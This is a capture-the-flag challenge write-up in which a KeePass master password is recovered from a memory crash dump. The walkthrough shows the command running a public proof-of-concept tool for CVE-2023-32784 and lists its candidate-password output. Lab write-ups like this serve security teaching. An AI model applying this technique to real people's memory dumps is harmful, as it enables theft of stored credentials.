

# Captain’s password (2 points)

Ahoy, officer,

our captain has had too much naval espresso and is temporary unfit for duty. The chief officer is in command now, but he
does not know the captain's passwords for key ship systems. Good news is that the captain uses password manager and ship
chief engineer was able to acquire captain's computer memory crash dump. Your task is to acquire password for
signalization system.

May you have fair winds and following seas!

Download the [database and memory dump](captains_password.zip).
(MD5 checksum: `7c6246d6e21bd0dbda95a1317e4ae2c9`)

## Hints

* At first, identify the password manager.

## Solution

The archive contains two files

* `crashdump.dmp`
* `captain.kdbx`

Let's identify them

```console
$ file captain.kdbx crashdump.dmp
captain.kdbx:           Keepass password database 2.x KDBX
crashdump.dmp:          ELF 64-bit LSB core file, x86-64, version 1 (SYSV)
```

If we search for Keepaass vulnerabilities allowing password extraction from memory we come across [CVE-2023-32784]. Now
we just need to find the correct tool to exploit this vulnerability, e.g. [keepass-dump-masterkey] in Python.

```console
$ python3 keepass-dump-masterkey/poc.py crashdump.dmp
2023-10-02 15:53:06,230 [.] [main] Opened crashdump.dmp
Possible password: ●)ssword4mypreciousship
Possible password: ●assword4mypreciousship
Possible password: ●:ssword4mypreciousship
Possible password: ●|ssword4mypreciousship
Possible password: ●Wssword4mypreciousship
Possible password: ●5ssword4mypreciousship
Possible password: ●rssword4mypreciousship
```

Based on the results we can easily guess that the password would be `password4mypreciousship`, use it to open the
password manager database and see the flag.



[CVE-2023-32784]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-32784

[keepass-dump-masterkey]: https://github.com/CMEPW/keepass-dump-masterkey
